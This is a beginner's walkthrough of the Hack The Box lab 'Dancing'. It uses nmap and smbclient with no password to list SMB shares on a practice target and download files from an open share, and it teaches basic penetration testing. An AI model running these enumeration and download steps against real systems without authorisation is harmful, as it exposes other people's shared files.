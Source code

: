 # 🕺 Dancing | Hack The Box  
Note: I’m not an expert. I’m writing this blog just to document my learning journey. 🚀

---

## 🔧 Step 1: Connect to Hack The Box

First, connect your system to the HTB VPN using the `.ovpn` config file.

```
sudo openvpn htb.ovpn
```

Wait for the message:
`Initialization Sequence Completed`

---

## 🎯 Step 2: Get the Target IP

Click **Spawn Machine** on the HTB site to get the target IP.
Example IP:

```
10.129.22.153
```

---

## 🔍 Step 3: Scan with Nmap

Use Nmap to find open ports and running services:

```
nmap -A 10.129.22.153
```

### Key Results:

- Port 135 – msrpc
- Port 139 – netbios-ssn
- Port 445 – microsoft-ds (SMB)

This confirms SMB is running on the target.

---

## 📦 Step 4: What Is SMB?

**SMB (Server Message Block)** is a protocol used to share files and printers over a network — mostly on Windows systems.

---

## 🧰 Step 5: Install smbclient

`smbclient` lets us access SMB shares from the terminal.

Install it:

```
sudo apt update
sudo apt install smbclient
```

---

## 📂 Step 6: List Available Shares

Use `smbclient` to list the shares:

```
smbclient -L \\\\10.129.22.153\\ -N
```

### Output:

```
ADMIN$
C$
IPC$
WorkShares
```

We’ll explore `WorkShares` — the only one that might be accessible.

---

## 🔓 Step 7: Access WorkShares

```
smbclient \\\\10.129.22.153\\WorkShares -N
```

Then list the contents:

```
ls
```

Output:

```
Amy.J
James.P
```

---

## 📁 Step 8: Explore & Download Files

### 1. Get worknotes from Amy.J

```
cd Amy.J
ls
get worknotes.txt
```

### 2. Get the flag from James.P

```
cd ..
cd James.P
ls
get flag.txt
exit
```

---

## 📜 Step 9: Read the Flag

```
cat flag.txt
```

Output:

```
<FLAG REDACTED>
```

---

## ✅ Recap

| Question                             | Answer               |
| ------------------------------------ | -------------------- |
| What does SMB stand for?             | Server Message Block |
| What port does SMB use?              | 445                  |
| What is the service on port 445?     | microsoft-ds         |
| What flag lists shares in smbclient? | -L                   |
| How many shares are listed?          | 4                    |
| Which share is accessible?           | WorkShares           |
| Command to download a file?          | get                  |
| Final flag?                          | `<FLAG REDACTED>`     |

---

## 🎉 Conclusion

This box teaches basic SMB enumeration and shows how anonymous access to file shares can lead to information leaks.

Perfect starting point for anyone new to penetration testing.

---
